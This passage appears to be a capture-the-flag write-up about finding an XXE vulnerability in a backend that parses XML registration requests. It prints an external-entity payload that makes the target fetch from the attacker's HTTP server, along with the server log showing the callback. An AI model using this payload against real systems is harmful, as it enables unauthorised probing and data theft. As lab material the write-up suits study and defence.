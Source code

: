 # Entry point

Example of an xml file that is passed to backend
```
<?xml version="1.0" encoding="UTF-8"?>
<root>
  <method>POST</method>
  <uri>/auth/register</uri>
  <user>
    <username>username_value</username>
    <password>password_value</password>
  </user>
</root>
```

We can check for XXE vuln by declaring the following entity inside the ```<?xml>``` and hosting an http server
```
<!DOCTYPE test [ 
<!ENTITY % xxe SYSTEM "http://10.10.16.8"> 
%xxe;
]>
```

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.192 - - [12/May/2023 12:35:19] "GET / HTTP/1.1" 200 -
```
